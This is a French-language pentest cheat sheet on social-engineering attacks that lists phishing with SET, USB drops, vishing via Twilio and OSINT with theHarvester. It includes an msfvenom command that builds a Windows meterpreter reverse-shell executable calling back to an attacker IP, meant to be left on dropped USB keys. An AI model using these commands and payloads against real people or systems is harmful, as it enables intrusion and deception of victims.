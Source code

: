 # Couche 8 – Ingénierie Sociale

## 1. Types d'attaques
- Phishing  : Piéger une cible pour obtenir des identifiants ou l’inciter à installer un malware.
- USB Drop  : Déposer des clés infectées pour inciter à leur branchement.
- Vishing  : Ingénierie sociale par téléphone.
- Collecte d’information (OSINT)  : Récolter des données publiques sur la cible.

## 2. Outils et méthodes

### ⚡ Attaque : Phishing

#### Outil : SET (Social Engineering Toolkit)
**Description** : Générateur d’attaques d’ingénierie sociale automatisées.
**Installation** : sudo apt install set
**Commande** : sudo setoolkit

---

### ⚡ Attaque : USB Drop

#### Outil : Metasploit
**Description** : Génère des payloads à déposer sur clé USB.
**Installation** : sudo apt install metasploit-framework
**Commande** : msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP Attaquant|192.168.1.1] LPORT=[port|4444] -f exe -o shell.exe

---

### ⚡ Attaque : Vishing

#### Outil : Twilio (API)
**Description** : Permet de simuler des appels ou des SMS automatisés.
**Installation** : https://www.twilio.com/
**Info** : Utilisation via scripts/API Python, voir documentation officielle.

---

### ⚡ Attaque : Collecte d’information (OSINT)

#### Outil : theHarvester
**Description** : Collecte des emails, noms, sous-domaines publics.
**Installation** : sudo apt install theharvester
**Commande** : theharvester -d [domaine cible|example.com] -b google,bing,linkedin

